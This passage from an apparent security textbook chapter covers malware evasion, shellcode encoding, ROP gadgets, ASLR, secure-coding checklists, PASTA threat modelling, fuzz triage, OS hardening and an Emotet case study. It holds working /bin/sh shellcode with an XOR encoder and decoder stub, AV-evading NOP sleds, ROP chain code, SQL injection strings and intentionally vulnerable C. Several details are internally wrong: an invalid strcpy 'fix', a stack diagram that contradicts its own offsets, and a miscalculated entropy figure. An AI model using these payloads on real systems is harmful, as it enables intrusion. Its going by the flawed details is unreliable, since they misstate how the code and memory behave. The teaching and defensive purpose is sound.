| 3 | Anti-debugging (TLS callback, IsDebuggerPresent) | Terminates or changes behavior when debugger detected | Need hardware breakpoints, kernel-mode debugging |
| 4 | Domain generation algorithm (DGA) | C2 domains computed from date/seed; thousands of possible domains | Need DNS sinkhole, reverse engineer algorithm |
| 5 | Polymorphic code (changes each infection) | Each sample has different byte sequence but same functionality | Signature-based AV fails; behavior-based detection needed |
| 6 | Reflective DLL injection | Loads DLL from memory, not disk (no file to scan) | Memory forensics required; file scanners miss it |
| 7 | Process hollowing | Creates legitimate process (svchost.exe), unmaps its code, injects malicious code | Process tree anomaly detection; parent-child relationship analysis |
| 8 | Living-off-the-land (LOLBins) | Uses only built-in tools (powershell, wmic, mshta) | Whitelisting (AppLocker) only defense; no new binaries to detect |

---

## Extended NOP Sled and Shellcode Encoding Variants

### NOP Sled Variations


```nasm
; Standard NOP (0x90) → easily signatured
nop

; Multi-byte NOP equivalents (AV/IDS evasion)
xchg eax, eax     ; 0x87 0xC0 → does nothing (same as NOP on most CPUs)
mov eax, eax      ; 0x89 0xC0 → no-op

; Using lea as NOP (common in compiler output)
lea esi, [esi]    ; 0x8D 0x36
lea edi, [edi]    ; 0x8D 0x3F

; 2-byte NOPs
xchg eax, ecx     ; 0x91
xchg eax, edx     ; 0x92
xchg eax, ebx     ; 0x93

; Random NOP-like instructions (for polymorphic sleds)
inc ecx           ; 0x41 → changes ecx but if ecx not used, harmless
dec ecx           ; 0x49 → reverses inc
```

### Shellcode Encoding with Custom XOR


```c
#include <stdio.h>
#include <stdint.h>
#include <string.h>

// Original shellcode: execve("/bin/sh", 0, 0) → 23 bytes
unsigned char shellcode[] = 
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2"
"\x53\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";

// Encoder: XOR each byte with a key, skip null bytes
void encode_xor(unsigned char *data, int len, unsigned char key) {
    for (int i = 0; i < len; i++) {
        unsigned char encoded = data[i] ^ key;
        // If encoded byte is a bad char (null, newline, etc.), adjust
        if (encoded == 0x00 || encoded == 0x0a || encoded == 0x0d) {
            // Use a different encoding for this byte (e.g., add key then XOR)
            // In practice, might use incremental keys or multi-byte XOR
            encoded = (data[i] + 0x22) ^ key;
        }
        data[i] = encoded;
    }
}

// Decoder stub (assembly → prepended to encoded shellcode)
unsigned char decoder_stub[] = 
"\x5e"                    // pop esi → get address of encoded shellcode
"\x31\xc9"                // xor ecx, ecx → counter
"\xb1\x17"                // mov cl, 23 → length of shellcode
"\x80\x34\x0e\xaa"        // xor byte [esi+ecx], 0xaa → XOR decode with 0xAA
"\xe2\xfa"                // loop back to decode
"\xff\xe6"                // jmp esi → jump to decoded shellcode
;

int main() {
    printf("Original shellcode (%lu bytes):\n", sizeof(shellcode)-1);
    for (int i = 0; i < sizeof(shellcode)-1; i++)
        printf("\\x%02x", shellcode[i]);
    printf("\n");

    encode_xor(shellcode, sizeof(shellcode)-1, 0xAA);
    printf("Encoded shellcode:\n");
    for (int i = 0; i < sizeof(shellcode)-1; i++)
        printf("\\x%02x", shellcode[i]);
    printf("\n");

    printf("Full payload (decoder + encoded): %lu bytes\n",
           sizeof(decoder_stub) + sizeof(shellcode)-1);
    return 0;
}
```

---

## Extended Malware Defenses Comparison

| Defense | What It Blocks | How | Bypass | Deployment |
|---------|---------------|-----|--------|------------|
| **AppLocker** | Unauthorized executables, scripts, MSI | Path/Publisher/Hash rule | DLL side-loading, LOLBins | Windows Enterprise/Education |
| **Windows Defender ASR** | Office child process, PS script execution, USB | Attack Surface Reduction rules | Disable if user is admin | Windows 10/11 Pro+ |
| **Windows Defender CFG** | ROP (indirect call hijack) | Guard CFG table check per indirect call | Corrupt valid function pointer | Windows 8.1+ |
| **Kernel DMA Protection** | DMA attacks via Thunderbolt | IOMMU blocks unauthorized devices | Physical access bypass | Windows 10 1803+ |
| **Credential Guard** | Pass-the-Hash, pass-the-Ticket | Isolates credentials in VBS | No bypass known for LSA isolated | Windows 10 Enterprise |
| **Secure Boot** | Bootkits, rootkits before OS | Verify digital signature at each boot stage | Disable in UEFI (requires physical access) | UEFI firmware |

---


## Extended ROP Gadget Catalog (x86_64)

### Essential Gadgets for ROP Chains


```asm
; ==================== DATA MOVEMENT ====================
pop rax; ret              ; Load constant into rax
pop rdi; ret              ; Load constant into rdi (arg1)
pop rsi; ret              ; Load constant into rsi (arg2)
pop rdx; ret              ; Load constant into rdx (arg3)
pop rcx; ret              ; Load constant into rcx (arg4)

; ==================== MEMORY READ/WRITE ====================
mov rax, [rdi]; ret       ; Dereference rdi into rax (read arbitrary memory)
mov [rdi], rax; ret       ; Write rax to address in rdi (write arbitrary memory)
mov [rdi], rsi; ret       ; Write rsi to address in rdi
xchg rax, rdi; ret        ; Swap rax and rdi

; ==================== ARITHMETIC ====================
add rax, rdi; ret         ; rax = rax + rdi
sub rax, rdi; ret         ; rax = rax - rdi
xor rax, rax; ret         ; Zero rax
inc rax; ret              ; Increment rax
dec rax; ret              ; Decrement rax

; ==================== SYSCALL ====================
syscall; ret              ; Execute syscall (rax = number, rdi/rsi/rdx/r10/r8/r9 = args)

; ==================== STACK MANIPULATION ====================
add rsp, 0x20; ret        ; Skip 4 stack slots
leave; ret                ; mov rsp, rbp; pop rbp; ret → restore frame
ret                       ; Pop next address and jump

; ==================== LOOP/BRANCH ====================
jmp rax                   ; Jump to computed address (if address is known)
call rax                  ; Call function (preserves return address)
push rax; ret             ; Jump to rax (alternative to jmp rax)
```

### Finding Specific Gadgets with ropper


```bash
# Filter by instruction + constraints
ropper --file /usr/lib/x86_64-linux-gnu/libc.so.6 \
       --search "mov qword ptr \[rdi\]"
ropper --file libc.so.6 --search "add eax" --regex

# Find gadgets by byte pattern
# "0f 05 c3" = syscall; ret
# "ff e0"    = jmp eax
ropper --file vuln --opbytes "ff e0"

# Search for gadgets that avoid certain bad bytes
ropper --file libc.so.6 --search "pop rdi" --badbytes "00"

# Find all unique gadgets for a binary
ropper --file vuln --all > all_gadgets.txt
```

### Stack Alignment (movaps) Workaround


```python
from pwn import *
import struct

# When calling system() on x86_64, the stack must be 16-byte aligned.
# If the ROP chain doesn't maintain alignment, system() crashes on movaps.

# Solution: insert a bare "ret" gadget before the target call.
# ret pops 8 bytes → stack pointer advances 8 → alignment restored.

ret_addr = 0x400101  # address of a "ret" instruction

# Off-alignment chain (crashes):
chain_off = [
    pop_rdi, bin_sh,  # 2 values on stack = 8 bytes pushed (off by 8)
    system_addr       # movaps will fault
]

# Correct-alignment chain (works):
chain_on = [
    pop_rdi, bin_sh,  # 16 bytes total
    ret_addr,         # extra ret pops 8 more = alignment restored
    system_addr       # system() gets 16-byte aligned stack
]

# Another method: merge pop+call
chain_alt = [
    pop_rdi, bin_sh,
    system_addr,
    exit_addr,        # clean exit after shell, also fixes alignment indirectly
]
```

---

## Extended Malware Analysis: Memory-Only Malware Detection

### Detecting Reflective DLL Injection


```powershell
# PowerShell detection of anomalous memory regions
# Reflective DLLs are loaded from memory (no backing file on disk)
$processes = Get-Process

foreach ($proc in $processes) {
    try {
        $modules = $proc.Modules
        foreach ($mod in $modules) {
            # Modules loaded from memory have empty FileName or unusual paths
            if ($mod.FileName -eq "" -or $mod.FileName -match "^\\\\") {
                Write-Warning "Suspicious module in $($proc.Name): $($mod.ModuleName)"
            }
            # Check for unsigned modules in critical processes
            if ($proc.Name -in @("svchost", "lsass", "winlogon", "csrss")) {
                # Would need digital signature check here
                Write-Verbose "Critical process $($proc.Name) loaded $($mod.ModuleName)"
            }
        }
    }
    catch {
        # Access denied → possible rootkit hiding modules
        Write-Warning "Cannot access modules for $($proc.Name) → possible hooking"
    }
}
```

### AMSI Bypass Detection


```powershell
# Windows Script Block Logging (Event ID 4104) captures PowerShell script content
# Even obfuscated scripts leave traces

# Enable enhanced logging via GPO or registry:
# HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging → EnableScriptBlockLogging = 1

# Query script block logs for suspicious patterns
Get-WinEvent -FilterHashtable @{
    LogName   = 'Microsoft-Windows-PowerShell/Operational'
    ID        = 4104
} | Where-Object {
    $msg = $_.Message
    $msg -match 'FromBase64String|Invoke-Expression|IEX\s*\(' -or
    $msg -match 'DownloadString|Start-Process\s+hidden' -or
    $msg -match '-enc\s+[A-Za-z0-9+/=]{50,}'
} | Select-Object TimeCreated, Id, @{n='Script';e={$_.Message.Substring(0, [Math]::Min(200, $_.Message.Length))}}

# Output:
# TimeCreated          : 6/15/2024 3:14:15 AM
# Id                   : 4104
# Script               : [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('...
```

---

## Extended Vulnerability Classes and CWE Mapping

| CWE ID | Name | Chapter Coverage | Example |
|--------|------|------------------|---------|
| CWE-119 | Buffer Over-read/Overwrite | Section 2: Buffer Overflows | gets(), strcpy() |
| CWE-120 | Classic Buffer Overflow | Section 2.2 | Stack smashing |
| CWE-122 | Heap-based Buffer Overflow | Section 2.3 | Heap metadata corruption |
| CWE-134 | Use of Externally-Controlled Format String | Section 2.5 (ASLR bypass) | printf(user_input) |
| CWE-190 | Integer Overflow or Wraparound | Section 6: Secure Coding | malloc(user_size + 16) wrap |
| CWE-362 | Race Condition (TOCTOU) | Section 6: Design | File open-check race |
| CWE-416 | Use After Free | Section 2.3 | Dangling pointer after free() |
| CWE-476 | NULL Pointer Dereference | Section 6: Coding | Unchecked malloc return |
| CWE-502 | Deserialization of Untrusted Data | Section 6.2.2 | readObject() |
| CWE-78 | OS Command Injection | Section 6.2.3 | exec(user_input) |
| CWE-79 | Cross-Site Scripting | Section 6.2.3 | innerHTML = userInput |
| CWE-89 | SQL Injection | Section 6.2.2 | Raw query concatenation |
| CWE-94 | Code Injection | Section 6.2.3 | eval(user_input) |
| CWE-200 | Information Exposure | Section 2.5 | Format string read |
| CWE-269 | Improper Privilege Management | Section 1 | SUID binaries |
| CWE-284 | Improper Access Control | Section 6: Design | Missing authorization check |
| CWE-787 | Out-of-bounds Write | Section 2: All overflows | Core of memory corruption |
| CWE-789 | Uncontrolled Memory Allocation | Section 6 | alloca with user size |
| CWE-798 | Hard-coded Credentials | Section 6: Secure Coding | Password in source |

---

## Extended ASLR Entropy Details

### Linux ASLR Entropy by Architecture and Kernel Version


```bash
# Check ASLR entropy on current system
cat /proc/sys/kernel/randomize_va_space
# 0 = ASLR off
# 1 = Randomize stack, mmap, shared libraries (partial → PIE off)
# 2 = Full randomization (stack, mmap, heap, PIE, vDSO)

# View memory layout of a process
cat /proc/self/maps
# 555555554000-555555557000 r--p 00000000 08:05 12345    /bin/cat (PIE base)
# 7ffff7dce000-7ffff7df5000 r-xp 00000000 08:05 67890    libc.so.6 (libc base)
# 7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0         [stack]

# Check actual entropy for each region
# On x86_64 Linux 5.4+:
#   mmap randomization: 28 bits (256TB address space)
#   stack randomization: 22 bits
#   heap randomization:  13 bits
#   PIE randomization:   28 bits

# Get entropy values from kernel source documentation
# /proc/sys/kernel/randomize_va_space = 2 provides:
#   28672 possible stack start positions (2^22 * 8 bytes)
#   2^28 possible mmap base positions
```

### ASLR Effectiveness on Different Platforms


| Platform | Stack Entropy | Heap Entropy | mmap/libc Entropy | Overall Security |
|----------|--------------|--------------|-------------------|------------------|
| Linux x86_64 (kernel ≥4.0) | 22 bits | 13 bits | 28 bits | Excellent |
| Linux i386 | 19 bits | 8 bits | 8 bits (256 positions) | Moderate |
| Windows 10 x64 | 19 bits | 5 bits | 8 bits (per session random) | Good |
| Windows 10 x86 | 17 bits | 5 bits | 8 bits | Moderate |
| macOS x86_64 | 16 bits | 12 bits | 16 bits | Good |
| Android (Linux 5.x) | 28 bits | 13 bits | 28 bits | Excellent |
| iOS (PAC + ASLR) | 24 bits + PAC | 16 bits | 16 bits | Very Good |

---

## Extended Secure Coding: C/C++ Memory Safety Checklist

### Pre-Coding Decisions


- [ ] Choose `-fstack-protector-strong` for all builds (default in modern GCC/Clang)
- [ ] Enable `-D_FORTIFY_SOURCE=2` for compile-time + runtime checks
- [ ] Use `-pie -fPIE` for position-independent executables
- [ ] Enable `-z relro -z now` for Full RELRO (GOT read-only after init)
- [ ] Use `-z noexecstack` to prevent stack execution
- [ ] Enable AddressSanitizer (`-fsanitize=address`) for debug builds

### During Implementation


- [ ] NEVER use `gets()` → use `fgets()` or `getline()`
- [ ] NEVER use `strcpy()` → use `strncpy()` or `strlcpy()` (with explicit null-termination)
- [ ] NEVER use `sprintf()` → use `snprintf()` with buffer size
- [ ] NEVER use `scanf("%s")` → use `fgets()` + `sscanf()` with field width
- [ ] ALWAYS check `malloc()`/`calloc()` return for NULL
- [ ] ALWAYS validate integer arithmetic before allocation (`size > SIZE_MAX - offset`)
- [ ] ALWAYS null-terminate strings after `strncpy()` → it does NOT add null if source >= n
- [ ] ALWAYS check array bounds before access
- [ ] ALWAYS set pointers to NULL after `free()`
- [ ] NEVER pass user input as format string to `printf()`, `fprintf()`, `syslog()`
- [ ] NEVER use `alloca()` with attacker-controlled size
- [ ] NEVER assume `realloc()` returns the same pointer
- [ ] ALWAYS check that `write()`/`send()` actually wrote all bytes (loop if necessary)

### Code Review Checklist


```c
// BAD PATTERN 1: Unbounded string copy
void bad1(char *input) {
    char buf[64];
    strcpy(buf, input);  // strcpy(buf, input, sizeof(buf));
}

// BAD PATTERN 2: Insufficient buffer in strncpy
void bad2(char *input) {
    char buf[64];
    strncpy(buf, input, sizeof(buf));  // NO null terminator if strlen(input) >= 64!
    // FIX: buf[sizeof(buf)-1] = '\0';
}

// BAD PATTERN 3: Integer overflow in allocation
void bad3(size_t count) {
    char *p = malloc(count * sizeof(char));  // overflow if count > SIZE_MAX/sizeof(char)
    // FIX: if (count > SIZE_MAX / sizeof(char)) return;
}

// BAD PATTERN 4: Format string vulnerability
void bad4(char *input) {
    printf(input);  // printf("%s", input);
}

// BAD PATTERN 5: TOCTOU race
void bad5(const char *path) {
    if (access(path, R_OK) == 0) {   // Check
        FILE *f = fopen(path, "r");  // Use → path may have changed!
        // FIX: open file first, then fstat() to verify
    }
}

// BAD PATTERN 6: Off-by-one
void bad6() {
    char buf[10];
    for (int i = 0; i <= 10; i++) {  // should be < 10
        buf[i] = 'A';
    }
}
```

---

## Extended Threat Modeling: PASTA Process

### PASTA 7-Stage Threat Modeling


| Stage | Name | Activities | Output |
|:-----:|------|------------|--------|
| 1 | Define Objectives | Business impact, compliance, risk appetite | Security requirements, KPIs |
| 2 | Define Technical Scope | Architecture diagram, tech stack, data flows | DFD (Data Flow Diagram) |
| 3 | Decompose Application | Trust boundaries, entry/exit points, assets | Component inventory |
| 4 | Threat Analysis | Map threats per component, threat trees | Threat tree diagrams |
| 5 | Vulnerability Analysis | Map vulnerabilities to threats, CVE correlation | Vulnerability map |
| 6 | Attack Modeling | Attack tree, STRIDE-per-interaction | Attack scenarios with likelihood |
| 7 | Risk & Impact Analysis | Risk scoring, residual risk, countermeasures | Prioritized mitigation plan |

**PASTA example for a login component:**

```
Stage 3: Decompose → Login Component
  Entry points: POST /api/login, GET /api/session
  Trust boundary: DMZ / Internal network
  Assets: User credentials, session tokens, authentication database

Stage 4: Threat Analysis
  └── Login Bypass
      ├── SQL injection on username field
      ├── Session token prediction
      ├── Credential stuffing via API rate (no rate limit)
      └── MFA bypass via backup code brute-force

Stage 6: Attack Modeling
  Attack Tree: SQL Injection on Login
  └── OR
      ├── Username field with ' OR 1=1 --
      │   ├── Parameterized query? → Blocked
      │   └── String concatenation? → Vulnerability!
      └── Password field with admin' --
          ├── Input validation? → Blocked
          └── No validation? → Vulnerability!

Stage 7: Risk Scoring
  [SQL Injection on Login] Damage=10 × Reproducibility=10 × Exploitability=8
  Likelihood=0.7 × Impact=10 = 56 (CRITICAL)
  Mitigation: Parameterize all queries
  Residual Risk: MEDIUM (imperfect implementation risk)
```

---

## Extended Fuzzing: Crash Triaging with GDB

```bash
# After AFL finds crashes, triage each one

# Find crash inputs
ls fuzz_out/default/crashes/

# For each crash, determine the root cause
for crash in fuzz_out/default/crashes/id:*; do
    echo "=== Analyzing: $crash ==="
    ./vuln_fuzz "$crash"
    echo "Exit code: $?"
done

# Use GDB to get detailed crash info
gdb -q --batch -ex "run < crash_input" -ex "bt" -ex "info registers" ./vuln_fuzz 2>&1

# GDB batch output:
# Program received signal SIGSEGV, Segmentation fault.
# 0x41414141 in ?? ()
# eip            0x41414141
# esp            0xffffd4b0

# Use Python/Binary Ninja to understand crash reachability
# from pwn import *
# crash_data = read("crash_input")
# core = Coredump("./core")
# print(f"Fault at: {hex(core.fault_addr)}")
# print(f"Stack: {core.stack[:64].hex()}")

# Minimize crash input with AFL tools
afl-tmin -i crash_input -o minimized_input -- ./vuln_fuzz @@
```

---

## Comprehensive Configuration Hardening Files

### Linux: Complete sysctl Hardening


```bash
# /etc/sysctl.d/99-security.conf
# Network hardening
net.ipv4.conf.all.rp_filter = 1
net.ipv4.conf.default.rp_filter = 1
net.ipv4.conf.all.accept_redirects = 0
net.ipv4.conf.all.secure_redirects = 0
net.ipv4.conf.all.send_redirects = 0
net.ipv4.conf.all.accept_source_route = 0
net.ipv6.conf.all.accept_redirects = 0
net.ipv6.conf.all.accept_source_route = 0

# Disable ICMP redirects
net.ipv4.conf.all.accept_redirects = 0
net.ipv6.conf.all.accept_redirects = 0

# Enable TCP SYN cookie protection (mitigates SYN flood)
net.ipv4.tcp_syncookies = 1
net.ipv4.tcp_syn_retries = 5
net.ipv4.tcp_synack_retries = 2

# Ignore ICMP echo requests (optional → disables ping)
net.ipv4.icmp_echo_ignore_all = 1

# Ignore broadcast ICMP (smurf attack mitigation)
net.ipv4.icmp_echo_ignore_broadcasts = 1
net.ipv4.icmp_ignore_bogus_error_responses = 1

# Restrict kernel log access
kernel.dmesg_restrict = 1
kernel.kptr_restrict = 2

# ASLR (full)
kernel.randomize_va_space = 2

# Restrict kexec (prevent unauthorized kernel replacement)
kernel.kexec_load_disabled = 1

# Restrict ptrace to CAP_SYS_PTRACE processes
kernel.yama.ptrace_scope = 2

# Disable BPF JIT (mitigates Spectre v2 in BPF)
net.core.bpf_jit_enable = 0

# Restrict user namespaces (mitigates privilege escalation)
user.max_user_namespaces = 0

# Protect FIFO/regular file creation in world-writable directories
fs.protected_fifos = 2
fs.protected_regular = 2
fs.protected_hardlinks = 1
fs.protected_symlinks = 1

# Disable core dumps for SUID
fs.suid_dumpable = 0

# Perf event hardening
kernel.perf_event_paranoid = 3
kernel.perf_event_max_sample_rate = 1
```

### Windows: PowerShell Hardening Script


```powershell
# Windows-Harden.ps1 → Run as Administrator

# ============ EXPLOIT PROTECTION ============
# Windows Defender Exploit Protection settings
Set-ProcessMitigation -System -Enable DEP, ForceRelocateImages
Set-ProcessMitigation -System -Enable ASLR, BottomUp, HighEntropy
Set-ProcessMitigation -System -Enable CFG, SuppressExports
Set-ProcessMitigation -System -Enable SEHOP, SEHOPTelemetry

# ============ WINDOWS DEFENDER ============
Set-MpPreference -DisableRealtimeMonitoring $false
Set-MpPreference -CloudBlockLevel High
Set-MpPreference -CloudTimeout 50
Set-MpPreference -PUAProtection Enabled
Set-MpPreference -SubmitSamplesConsent Always
Set-MpPreference -HighThreatDefaultAction Quarantine
Set-MpPreference -ModerateThreatDefaultAction Quarantine
Set-MpPreference -LowThreatDefaultAction Quarantine
Set-MpPreference -SevereThreatDefaultAction Quarantine

# ============ FIREWALL ============
# Default inbound block
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled True -DefaultInboundAction Block
Set-NetFirewallProfile -Profile Domain,Public,Private -LogFileName "%SystemRoot%\System32\LogFiles\Firewall\pfirewall.log"
Set-NetFirewallProfile -Profile Domain,Public,Private -LogMaxSizeKilobytes 16384

# ============ LOGGING ============
# Enable PowerShell Script Block Logging
New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Force
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockInvocationLogging" -Value 1

# ============ SMB ============
# Disable SMBv1 (used by EternalBlue)
Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol -NoRestart

# ============ LSASS PROTECTION ============
# Enable RunAsPPL (protects LSASS from credential dumping)
New-Item -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Force
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "RunAsPPL" -Value 1

# ============ RDP HARDENING ============
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" -Name "UserAuthentication" -Value 1
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" -Name "SecurityLayer" -Value 2

# ============ AUDIT POLICY ============
auditpol /set /subcategory:"Process Creation" /failure:enable /success:enable
auditpol /set /subcategory:"Logon" /failure:enable /success:enable
auditpol /set /subcategory:"Registry" /failure:enable /success:enable
auditpol /set /subcategory:"File System" /failure:enable /success:enable
auditpol /set /subcategory:"Kernel Object" /failure:enable /success:enable
auditpol /set /subcategory:"Detailed File Share" /failure:enable /success:enable

Write-Host "Hardening completed. Restart recommended."
```

---

## Extended Malware Case Study: Emotet → Botnet Evolution

### Emotet Technical Breakdown


Emotet evolved over 10+ years through multiple transformations:

| Phase | Years | Type | Key Technique |
|-------|-------|------|---------------|
| 1 | 2014 | Banking Trojan | Web injects against banks |
| 2 | 2016 | Malware downloader | Downloads Dridex, TrickBot, etc. |
| 3 | 2018 | Spam propagator | Worms via Outlook + malicious docs |
| 4 | 2020 | Modular malware | Modules for credential theft, email harvesting, spam relay |
| 5 | 2021 | Disrupted (takedown) | Law enforcement coordinated takedown |

**Emotet C2 protocol:**
```
1. Beacon: POST /<random_string>.php with encrypted system info
2. Response: Encrypted payload (DLL) loaded into regsvr32.exe
3. Propagation: SMB brute-force + PsExec spread to network
4. Persistence: Scheduled task or service + registry Run key
5. Lateral movement: Steals Outlook contacts → sends phishing emails
```

**Detection signature (Zeek/Suricata):**
```
alert http $HOME_NET any -> $EXTERNAL_NET any (
    msg:"Emotet C2 Beacon Detected";
    content:"POST"; http_method;
    content:".php"; http_uri;
    pcre:"/([a-z0-9]{16}\.php)$/";
    content:"User-Agent: Mozilla/4.0";
    flow:to_server, established;
    sid:1000001; rev:1;
)
```

---

## Extended Buffer Overflow: Stack Frame Diagrams with More Detail

### Complete Stack Frame for x86 (32-bit)


```c
void func(char *input) {
    char buffer[32];
    int i;
    int safety = 0xDEAD;
    for (i = 0; i < 100; i++) {
        buffer[i] = input[i];  // intentional overflow
    }
}
```

**Stack layout before overflow:**
```
Address (relative to EBP)   Content                 Size
+----------------------------+----------------------+--------
EBP + 8                      input pointer          4 bytes
EBP + 4                      return address         4 bytes  ← TARGET
EBP + 0                      saved EBP              4 bytes  ← TARGET
EBP - 4                      safety = 0x0000DEAD    4 bytes
EBP - 8                      i                      4 bytes
EBP - 12                     (padding)              12 bytes
EBP - 24                     buffer[11..0]          12 bytes
EBP - 36                     buffer[23..12]         12 bytes
EBP - 44                     buffer[31..24]         8 bytes
ESP →                        buffer[0]              1 byte
```

**Stack layout AFTER overflow (100 bytes written into 32-byte buffer):**
```
Address                     Content                  Source Offset
+---------------------------+------------------------+--------------
EBP + 8                     bytes 96-99              96-99 (input[96..99])
EBP + 4                     bytes 92-95 (return)     92-95 → EIP hijack!
EBP + 0                     bytes 88-91 (EBP)        88-91
EBP - 4                     bytes 84-87              84-87 → safety overwritten
EBP - 8                     bytes 80-83 (i)          80-83 → loop counter corrupted
EBP - 12                    bytes 68-79              68-79
EBP - 24                    bytes 56-67              56-67
EBP - 36                    bytes 44-55              44-55
EBP - 44                    bytes 32-43              32-43
ESP →                       bytes 0-31               0-31 (buffer)
```

**Key insight:** The `safety` variable (0xDEAD) sits between i and the saved EBP. A 36-byte overflow would overwrite it. A 40-byte overflow hits EBP. A 44-byte overflow hits the return address. But the loop runs to `< 100` → well past all of them.

---

## Chapter 4 End

*All sections complete. This chapter covers OS hardening, buffer overflows (stack/heap/SEH), shellcode development, ROP/ret2libc, ASLR/DEP/CFG, malware types, SSDLC threat modeling, secure coding (C/C++/Java/JS), fuzzing (AFL/libFuzzer), static/dynamic analysis (Flawfinder, RATS, ASan), and case studies (SolarWinds, NotPetya, Stuxnet, Morris Worm).*
